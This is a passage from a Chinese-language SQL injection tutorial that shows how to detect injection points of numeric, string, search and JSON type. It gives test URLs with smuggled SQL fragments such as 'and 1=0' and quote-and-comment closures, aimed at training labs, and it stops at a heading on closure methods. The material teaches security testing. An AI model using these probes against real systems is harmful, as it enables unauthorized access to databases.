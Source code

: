 ### 5.1 数字型

尝试传递逻辑错误

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=0
```

> 报错则说明存在 sql 注入

修改逻辑使之正常访问

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=1
```

### 5.2 字符型

尝试传递特殊字符 `` `

```
http://192.168.1.76/sqli-labs/Less-1/?id=1'
```

> 当传递 `'` 时报错

添加注释使之正常访问

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' --+
```

> 在 mysql 中提交 `+` 相当于空格

或者手动闭合

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and '1
```

> 返回正常说明存在 SQL 注入

### 5.3 搜索型（待补充）

```
1%' and 1=1 and '%'='
```

### 5.4 json型（待补充）

```
{
    "id":"1 and 1=1"
}
```

## 6 判断闭合方式

### 6.1 字符型
